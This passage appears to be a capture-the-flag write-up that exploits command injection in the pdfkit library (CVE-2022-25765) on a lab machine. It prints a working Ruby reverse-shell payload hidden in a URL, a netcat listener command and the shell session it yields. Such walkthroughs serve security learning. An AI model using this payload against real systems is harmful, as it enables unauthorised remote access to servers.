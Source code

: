 
> **Note:** It is worth noting that initially I tried to exploit the RCE vulnerability for the Rails framework itself < 5.0.1 - **CVE-2020-8163**. It did not work.

> There is a vulnerability in the pdfkit v0.8.6 library that allows command injection. The point is that **pdfkit** does not escape the input data (url/HTML)
> before passing the command to the **wkhtmltopdf** utility for conversion.

> To implement this vulnerability, I found exploit on the ExploitDB **CVE:2022-25765** - this will be the entry point.

> The exploit itself is quite large, but I am specifically interested in the payload itself, namely the line - the modified url address:

```bash

payload = f"http://%20`ruby -rsocket -e'spawn(\"sh\",[:in,:out,:err]=>TCPSocket.new(\"{str(listenIP)}\",\"{str(listenPort)}\"))'`"

```
> This is the URL inside which the Ruby library 'socket' is loaded, a TCP connection is created to my IP on the listening port, then stdin, stdout and stderr are connected to the connection
> and the 'sh' shell itself. **PDFkit** does not escape this entire URL in any way and will give it to the **wkhtmltopdf** utility for conversion.

> start listener:

```bash

nc -lvpn 4444

```

> send this url for application:

```bash

http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("*.*.*.*","4444"))'`

```

> I get a reverse shell for the user **ruby** under which the application is running:

```bash

listening on [any] 4444 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.189] 52394
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$

```

> Start a search of the system for the presence of configuration files for the Rails framework or pdfkit:
